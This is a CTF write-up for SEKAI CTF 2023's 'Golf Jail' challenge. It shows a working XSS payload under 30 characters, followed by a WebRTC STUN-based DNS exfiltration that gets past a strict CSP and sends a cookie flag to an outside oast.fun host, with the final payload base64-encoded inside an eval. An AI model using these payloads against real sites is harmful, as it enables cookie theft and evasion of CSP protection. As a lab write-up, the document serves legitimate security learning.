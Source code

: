 ```yaml
---
title: "SEKAI CTF 2023 - Golf Jail"
description: "JS Payload golfing and CSP Bypass using WebRTC"
lead: "JS Payload golfing and CSP Bypass using WebRTC"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "writeup"
weight: 620
toc: true
---
```


> I did not manage to solve it during the CTF, but I decided to make a write-up afterwards as it was a very cool challenge.

## Challenge

I hope you like golfing ⛳🏌️⛳🏌️

- Challenge URL: [https://golfjail.chals.sekai.team/](https://golfjail.chals.sekai.team/)

```html
<?php
    header("Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; script-src 'unsafe-inline' 'unsafe-eval';");
    header("Cross-Origin-Opener-Policy: same-origin");

    $payload = "🚩🚩🚩";
    if (isset($_GET["xss"]) && is_string($_GET["xss"]) && strlen($_GET["xss"]) <= 30) {
        $payload = $_GET["xss"];
    }

    $flag = "SEKAI{test_flag}";
    if (isset($_COOKIE["flag"]) && is_string($_COOKIE["flag"])) {
        $flag = $_COOKIE["flag"];
    }
?>
<!DOCTYPE html>
<html>
    <body>
        <iframe
            sandbox="allow-scripts"
            srcdoc="<!-- <?php echo htmlspecialchars($flag) ?> --><div><?php echo htmlspecialchars($payload); ?></div>"
        ></iframe>
    </body>
</html>
```

> The admin bot only takes URLs of the format https://golfjail.chals.sekai.team/

## TL;DR

Create a tiny XSS to run a second payload contained inside the URL. This second payload will exfiltrate the flag and bypass the CSP using a DNS exfiltration with WebRTC.

## Write-Up

### Code Execution

Using `htmlspecialchars` within the `srcdoc` attribute doesn't prevent against HTML Injection/XSS. The code example below demonstrates that HTML entity codes are effectively interpreted inside the `iframe`. For more details, refer to [attr-iframe-srcdoc](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-srcdoc).

```js
function encodeHTMLEntities(text) {
  var textArea = document.createElement('textarea');
  textArea.innerText = text;
  return textArea.innerHTML;
}

document.write(`<iframe srcdoc='${encodeHTMLEntities("<img src=x onerror=alert()>")}'></iframe>`);
```

### Tiny XSS

We know how to execute an XSS, our next challenge is to bypass the 30 characters or less filter. To perform an XSS within this limit, we can use the URL to locate a part of our payload.

```python
>>> len("<svg onload=eval(location)>") # about:srcdoc
27
>>> len("<svg onload=eval(top.location)>") # https://golfjail.chals.sekai.team/...
31
>>> len("<svg onload=eval(baseURI)>") # https://golfjail.chals.sekai.team/...
26
```

When you're within an `iframe`, you can't employ the `location` attribute to access the top-level location. Using `top.location` exceeds the character limit. However, you can leverage the [baseURI](https://devdoc.net/web/developer.mozilla.org/en-US/docs/Web/API/Document/baseURI.html) property of the Node (in this case, the `svg`). This property provides the absolute base URL of the document housing the node.

As we cannot directly evalute the `baseURI` property, we can create a string that will contain the URL, close this string and initiate our second payload. This means the second payload resides both within the URL and outside the `xss` parameter, allowing us to bypass the character limit.

```
golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'+PAYLOAD2

1. 'https://golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'
2. +
3. PAYLOAD2

=> eval('https://.../?xss=eval(%60%27%60%2BbaseURI)>#' + PAYLOAD2)
```

### CSP Bypass

Now that we can execute an XSS without dealing with the character size resitriction, our final step is to find a CSP bypass to extract the flag. For this purpose, we can use a DNS exfiltration via WebRTC.

```
Content-Security-Policy:
    default-src 'none';
    frame-ancestors 'none';
    script-src 'unsafe-inline' 'unsafe-eval';
```

WebRTC exfiltration payload:

```js
var flag = document.firstChild.data.split('').map(x=>x.charCodeAt(0).toString(16)).join('').substr(32,48);
var pc = new RTCPeerConnection({
    "iceServers": [{
        "urls": ["stun:" + flag + ".ckpaek22vtc0000kjaw0gj5f8jhyyyyyb.oast.fun"]
    }]
});
pc.createOffer({
    offerToReceiveAudio: 1
}).then(o => pc.setLocalDescription(o));
```

Final payload:

```
https://golfjail.chals.sekai.team/?xss=%3Csvg%20onload=eval(`%27`%2BbaseURI)%3E#'+eval(atob('dmFyIGZsYWcgPSBkb2N1bWVudC5maXJzdENoaWxkLmRhdGEuc3BsaXQoJycpLm1hcCh4PT54LmNoYXJDb2RlQXQoMCkudG9TdHJpbmcoMTYpKS5qb2luKCcnKS5zdWJzdHIoMzIsNDgpOwp2YXIgcGMgPSBuZXcgUlRDUGVlckNvbm5lY3Rpb24oewogICAgImljZVNlcnZlcnMiOiBbewogICAgICAgICJ1cmxzIjogWyJzdHVuOiIgKyBmbGFnICsgIi5ja3BhZWsyMnZ0YzAwMDBramF3MGdqNWY4amh5eXl5eWIub2FzdC5mdW4iXQogICAgfV0KfSk7CnBjLmNyZWF0ZU9mZmVyKHsKICAgIG9mZmVyVG9SZWNlaXZlQXVkaW86IDEKfSkudGhlbihvID0+IHBjLnNldExvY2FsRGVzY3JpcHRpb24obykpOw=='))
```

> **SEKAI{jsjails_4re_b3tter_th4n_pyjai1s!}**
